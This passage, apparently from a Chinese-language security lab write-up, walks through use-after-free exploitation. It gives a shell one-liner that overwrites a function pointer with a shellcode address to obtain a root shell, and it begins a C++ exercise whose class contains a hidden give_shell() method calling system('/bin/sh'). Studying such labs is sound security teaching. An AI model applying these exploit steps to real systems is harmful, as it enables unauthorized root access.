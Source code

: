 并编译与uaf.c文件名长度相同，都是三位

```bash
gcc att.c -o att
./att
```

![image-20220405201141019](UAF/image-20220405201141019.png)

得到shellcode地址 `bffffbd7`

### 攻击

分析结构体的分布。 结构体里面包含一个 int， 一个 20 单元的字节数组，  一个 void*指针。 一共是 28 字节。所以我们至少要使用 7 个 int 单元才能将其完全覆盖。 而函数指针在最后， 是在第 7 个 int 单元。 因而使用如下攻击代码，或更高倍数均可：

```shell
./uaf $(python -c "print '\xd7\xfb\xff\xbf'*7")
```

![image-20220405201249654](UAF/image-20220405201249654.png)

成功获取`rootshell`

## UAF2cpp

### 源代码分析

```cpp
#include <fcntl.h>
#include <iostream>
#include <cstring>
#include <cstdlib>
#include <unistd.h>
using namespace std;

class Human // 人 类 两个变量
{
private: // 虚函数,可攻击点
        virtual void give_shell()
        {
                setuid(geteuid());
                system("/bin/sh"); // 直接获取root shell
        }

protected:
        int age;
        string name;

public:
        virtual void introduce()
        {
                cout << "My name is " << name << endl;
                cout << "I am " << age << " years old" << endl;
```